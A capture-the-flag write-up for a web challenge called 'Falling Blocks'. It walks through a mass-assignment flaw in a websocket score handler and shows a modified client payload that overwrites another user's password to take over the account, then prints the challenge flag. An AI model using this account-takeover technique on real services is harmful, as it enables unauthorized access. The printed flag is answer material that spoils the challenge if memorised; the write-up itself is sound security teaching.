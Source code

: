 ```yaml
---
ai_date: 2025-04-27 05:27:59
ai_summary: Exploited unauthorized data modification and password manipulation to gain flag
ai_tags:
  - http-hdr
  - sql
  - xss
created: 2025-04-19T04:32
points: 423
solves: 45
title: Falling Blocks
updated: 2025-07-14T09:46
---
```


We can just cheat directly no?

```js
if (score > 10000) {
    data.score = 0;
}

/////

app.get('/logout', utils.authMiddleware, async (req, res) => {
    if (req.user.username !== await client.HGET(req.user.username, 'username')) {
        return res.json({ "message": "Stop cheating!" });
    }
    const score = await client.HGET(req.user.username, 'score');
    if (score > 10000) {
        return res.json({ "message": process.env.FLAG });
    }
    res.clearCookie("user");
    res.redirect("/login");
});
```

Maybe not, it seems that we can't exactly just get the flag directly by changing our score.

But wait, is that a `Object.assign` I see? With user provided data?

```js
const data = JSON.parse(message);
if (data.type && data.time && data.score) {
    if (data.type === 'gameOver') {
        let score = data.score;

        if (score > 10000) {
            data.score = 0;
        }

        userdata = Object.assign(userdata, data);
        userdata.score = Math.max(userdata.score, await client.HGET(userdata.username, "score"));
        await client.HSET(userdata.username, userdata);
        scoreboard.addScore(userdata.score, userdata.username);
    }
}
```

And we can just edit the `userdata` of any user?

Well that means we can edit their passwords.

```js
if (username !== await client.HGET(username, 'username')) {
    return res.json({ "message": "Stop cheating!" });
}
if (password === await client.HGET(username, 'password')) {
    res.cookie("user", await client.HGET(username, 'tokens'), {
        httpOnly: true
    });
    return res.redirect('/game');
}
```

We can just patch the `game.js` file to send our own data (turn on browser local override).

This is override Ssundae's password to `Ssundae`.

```js [game.js]
ws.send(JSON.stringify({ type: 'gameOver', time: new Date().toLocaleTimeString(), score: score, username: "Ssundae", password: "Ssundae" }));
// alert('Game Over! Score: ' + score);
// document.location.reload();
```

Then we logout and login with `Ssundae` / `Ssundae`, and logout again.

```flag
UMASS{F@lLiNgH@rD_0N_w3bS0cK3ts!437}
```